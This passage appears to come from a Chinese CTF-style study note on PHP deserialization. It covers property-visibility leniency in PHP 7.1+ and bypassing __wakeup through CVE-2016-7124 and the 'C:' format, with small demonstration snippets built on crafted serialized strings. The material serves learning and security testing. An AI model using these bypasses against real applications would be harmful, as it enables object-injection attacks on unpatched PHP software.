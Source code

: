     [jarvisoj-web的一道SESSION反序列化题目](https://www.cnblogs.com/hello-py/articles/13502328.html)

### 1.7 反序列化的一些Trick

#### 1.7.1 php7.1+反序列化对类属性不敏感

如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`  

但在**特定版本7.1以上**则对于类属性不敏感，可以直接访问私有变量

```
<?php
class test{
    protected $a;
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');//可以发现直接输出abc
?>
```

#### 1.7.2 绕过__wakeup(CVE-2016-7124)

*   (CVE-2016-7124)漏洞

    版本： PHP5 < 5.6.25  PHP7 < 7.0.10

    利用方式：`序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行`

*   `__wakeup`本身为自定义的对象序列化方式；我们可以直接使用C的自定义序列化格式来绕过`__wakeup`

    版本：PHP5以上(仅测试了5.6.9与7.3.4)

    ```php
    <?php
    class Hint {
    
    public function __wakeup(){
        $this->hint = "no hint";
    }
    
    public function __destruct(){
        if(!$this->hint){
            echo "success";
        } 
        else{
            echo "fail";
        } 
    }
    }
    unserialize('C:4:"Hint":0:{}');
    unserialize('O:4:"Hint":1:{}');
    //两者均可绕过__wakeup
    ?>
    ```

